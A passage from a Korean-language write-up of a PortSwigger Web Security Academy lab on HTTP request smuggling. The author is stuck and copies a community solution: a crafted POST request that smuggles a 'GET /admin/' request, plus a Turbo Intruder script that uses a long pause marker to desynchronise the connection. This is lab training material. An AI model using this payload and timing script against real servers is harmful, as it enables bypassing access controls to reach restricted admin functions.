 /admin 에 대한 응답은 여전히 403이었다. 

![](/images/burp-academy-hrs-21-6.png)

4. 모르겠다. 커뮤니티 답을 본다. 

답에서는 Turbo Intruder에 보내는 값이 다음과 같이 되어 있었다. 

http 요청은 다음과 같이 스머글링 요청을 포함한 요청으로 되어 있다. 

```http
POST /resources HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/ HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```
